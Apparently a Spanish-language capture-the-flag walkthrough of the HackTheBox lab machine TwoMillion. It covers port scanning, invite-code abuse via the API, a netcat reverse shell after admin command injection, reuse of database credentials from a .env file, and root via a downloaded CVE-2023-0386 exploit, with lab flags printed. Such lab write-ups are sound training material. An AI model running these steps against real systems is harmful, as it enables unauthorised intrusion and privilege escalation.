


# TwoMillion

`TwoMillion` es una máquina Linux de dificultad fácil que se lanzó para celebrar los 2 millones de usuarios de HackTheBox. La máquina presenta una versión antigua de la plataforma HackTheBox que incluye un código de invitación vulnerable. Tras piratear el código de invitación, se puede crear una cuenta en la plataforma. Esta cuenta permite enumerar varios puntos finales de API, uno de los cuales se puede usar para escalar privilegios a Administrador. Con acceso administrativo, se puede realizar una inyección de comando en el punto final de generación de VPN de administrador, obteniendo así un shell del sistema. Más adelante, se descubre que un archivo `.env` contiene credenciales de base de datos, y debido a la reutilización de contraseñas, los atacantes pueden iniciar sesión como usuario administrador en la máquina. Además, el núcleo del sistema está desactualizado, lo que permite utilizar la vulnerabilidad CVE-2023-0386 para obtener un shell de root.

<figure><figcaption></figcaption></figure>

***


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.221 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 23:24 CET
Initiating SYN Stealth Scan at 23:24
Scanning 10.10.11.221 [65535 ports]
Discovered open port 80/tcp on 10.10.11.221
Discovered open port 22/tcp on 10.10.11.221
Completed SYN Stealth Scan at 23:24, 11.98s elapsed (65535 total ports)
Nmap scan report for 10.10.11.221
Host is up, received user-set (0.031s latency).
Scanned at 2025-02-16 23:24:24 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.09 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65553 (2.623MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.221
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.221 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 23:25 CET
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   103.06 ms 10.10.16.1
2   30.20 ms  2million.htb (10.10.11.221)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```


<figure><figcaption></figcaption></figure>


```bash
❯ catnp /etc/hosts | grep 2million
10.10.11.221 2million.htb
```


```bash
❯ whatweb http://2million.htb
http://2million.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.10.11.221], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```

<figure><figcaption></figcaption></figure>


```bash
❯ feroxbuster -u http://2million.htb/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
401      GET        0l        0w        0c http://2million.htb/api
200      GET       27l      201w    15384c http://2million.htb/images/favicon.png
200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png
200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js
200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css
200      GET       80l      232w     3704c http://2million.htb/login
200      GET       96l      285w     3859c http://2million.htb/invite
200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css
200      GET       46l      152w     1674c http://2million.htb/404
200      GET     1242l     3326w    64952c http://2million.htb/
405      GET        0l        0w        0c http://2million.htb/api/v1/user/register
200      GET       94l      293w     4527c http://2million.htb/register
405      GET        0l        0w        0c http://2million.htb/api/v1/user/login
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


[http://2million.htb/invite](http://2million.htb/invite) a


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ rot13 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr'
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```


```bash
❯ curl -s -X POST 'http://2million.htb/api/v1/invite/generate'
{"0":200,"success":1,"data":{"code":"MlI1QlotVzFCR1UtNzM5MzMtMVc1NUY=","format":"encoded"}}
```


```bash
❯ echo 'MlI1QlotVzFCR1UtNzM5MzMtMVc1NUY=' | base64 -d; echo
2R5BZ-W1BGU-73933-1W55F
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [16/Feb/2025 23:51:02] code 404, message File not found
10.10.11.221 - - [16/Feb/2025 23:51:02] "GET /gzzcoo HTTP/1.1" 404 -
10.10.11.221 - - [16/Feb/2025 23:51:03] code 404, message File not found
10.10.11.221 - - [16/Feb/2025 23:51:03] "GET /gzzcoo.ovpn HTTP/1.1" 404 -
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 45582
bash: cannot set terminal process group (1173): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@2million:~/html$ export TERM=xterm
www-data@2million:~/html$ export SHELL=bash
www-data@2million:~/html$ stty rows 46 columns 230
```


```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Feb 16 22:50 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Feb 16 22:50 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```


```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:~/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```


```bash
❯ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 16 10:56:09 PM UTC 2025

  System load:           0.0
  Usage of /:            74.4% of 4.82GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.221
  IPv6 address for eth0: dead:beef::250:56ff:fe94:670

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ cat user.txt 
a4b75c86191e364bafb0f5d87ddb58c8
```


```bash
admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

admin@2million:~$ sudo -l
[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.

admin@2million:~$ find / -perm -4000 2>/dev/null
/snap/snapd/19122/usr/lib/snapd/snap-confine
/snap/core20/1891/usr/bin/chfn
/snap/core20/1891/usr/bin/chsh
/snap/core20/1891/usr/bin/gpasswd
/snap/core20/1891/usr/bin/mount
/snap/core20/1891/usr/bin/newgrp
/snap/core20/1891/usr/bin/passwd
/snap/core20/1891/usr/bin/su
/snap/core20/1891/usr/bin/sudo
/snap/core20/1891/usr/bin/umount
/snap/core20/1891/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1891/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1

admin@2million:~$ getcap -r / 2>/dev/null
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
```


```bash
admin@2million:/$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```


<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>





Se encontró una falla en el kernel de Linux, donde se encontró acceso no autorizado a la ejecución del archivo setuid con capacidades en el subsistema OverlayFS del kernel de Linux cuando un usuario copia un archivo con capacidades desde un montaje nosuid a otro montaje. Este error de mapeo de uid permite que un usuario local escale sus privilegios en el sistema.






<figure><figcaption></figcaption></figure>


```bash
❯ ls -l CVE-2023-0386-master.zip
.rw-rw-r-- kali kali 11 KB Sun Feb 16 23:59:40 2025  CVE-2023-0386-master.zip
❯ mv CVE-2023-0386-master.zip gzzcoo.zip
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
admin@2million:/tmp$ wget 10.10.16.3/gzzcoo.zip
--2025-02-16 23:02:04--  http://10.10.16.3/gzzcoo.zip
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11579 (11K) [application/zip]
Saving to: ‘gzzcoo.zip’

gzzcoo.zip                  100%[==========================================>]  11.31K  --.-KB/s    in 0s      

2025-02-16 23:02:05 (30.4 MB/s) - ‘gzzcoo.zip’ saved [11579/11579]

admin@2million:/tmp$ unzip gzzcoo.zip 
Archive:  gzzcoo.zip
737d8f4af6b18123443be2aed97ade5dc3757e63
   creating: CVE-2023-0386-master/
  inflating: CVE-2023-0386-master/Makefile  
  inflating: CVE-2023-0386-master/README.md  
  inflating: CVE-2023-0386-master/exp.c  
  inflating: CVE-2023-0386-master/fuse.c  
  inflating: CVE-2023-0386-master/getshell.c  
   creating: CVE-2023-0386-master/ovlcap/
 extracting: CVE-2023-0386-master/ovlcap/.gitkeep  
   creating: CVE-2023-0386-master/test/
  inflating: CVE-2023-0386-master/test/fuse_test.c  
  inflating: CVE-2023-0386-master/test/mnt  
  inflating: CVE-2023-0386-master/test/mnt.c 
```


```bash
admin@2million:/tmp$ cd CVE-2023-0386-master/
admin@2million:/tmp/CVE-2023-0386-master$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```


```bash
admin@2million:/tmp/CVE-2023-0386-master$ ls -l
total 1444
-rwxrwxr-x 1 admin admin   17160 Feb 16 23:02 exp
-rw-rw-r-- 1 admin admin    3093 May 16  2023 exp.c
-rwxrwxr-x 1 admin admin 1407736 Feb 16 23:02 fuse
-rw-rw-r-- 1 admin admin    5616 May 16  2023 fuse.c
-rwxrwxr-x 1 admin admin   16096 Feb 16 23:02 gc
-rw-rw-r-- 1 admin admin     549 May 16  2023 getshell.c
-rw-rw-r-- 1 admin admin     150 May 16  2023 Makefile
drwxrwxr-x 2 admin admin    4096 May 16  2023 ovlcap
-rw-rw-r-- 1 admin admin     180 May 16  2023 README.md
drwxrwxr-x 2 admin admin    4096 May 16  2023 test
```


```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```


```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Feb 16 23:04 .
drwxrwxr-x 6 root   root     4096 Feb 16 23:04 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-master# whoami
root
root@2million:/tmp/CVE-2023-0386-master# cat /root/root.txt 
4d832b818337f4334dffa909960ee48d
```
